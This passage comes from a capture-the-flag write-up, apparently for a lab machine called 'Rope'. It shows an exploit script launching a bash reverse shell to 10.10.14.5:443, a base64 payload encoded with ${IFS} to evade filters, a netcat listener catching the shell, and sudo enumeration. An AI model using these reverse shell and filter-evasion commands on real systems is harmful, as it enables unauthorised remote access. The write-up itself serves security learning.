 ### Shell

Now I can run my script to get a shell. In building this up, I tested with
touching a file in `/tmp` and then checking via the webserver. But once it’s
working, I can use a reverse shell:

    
    
    root@kali# ./rope_shell.py 10.10.10.148 "bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'"                                                                                        
    [+] Main base address:   0x565be000
    [+] libc base address:   0xf7d0d000
    [+] GOT table for puts:  0x565c3048
    [+] system address:      0xf7d49d10
    [+] system lower:            0x9d10
    [+] system upper:        0xf7d4
    [*] Command: bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'
    [*] Encoded command: echo${IFS}YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41LzQ0MyAwPiYxJw==${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}/bin/sh
    [*] Sending exploit
    

And get a callback:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.148.
    Ncat: Connection from 10.10.10.148:60820.
    bash: cannot set terminal process group (1103): Inappropriate ioctl for device
    bash: no job control in this shell
    bash: /root/.bashrc: Permission denied
    john@rope:/opt/www$ id
    uid=1001(john) gid=1001(john) groups=1001(john)
    

## Shell as r4j

### Enumeration

Before uploading any recon scripts, in my basic checks I always check `sudo`,
and here, there’s something interesting. I can run `/usr/bin/readlogs` as r4j
without password:

    
    
    john@rope:/$ sudo -l
    Matching Defaults entries for john on rope:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User john may run the following commands on rope:
        (r4j) NOPASSWD: /usr/bin/readlogs
    
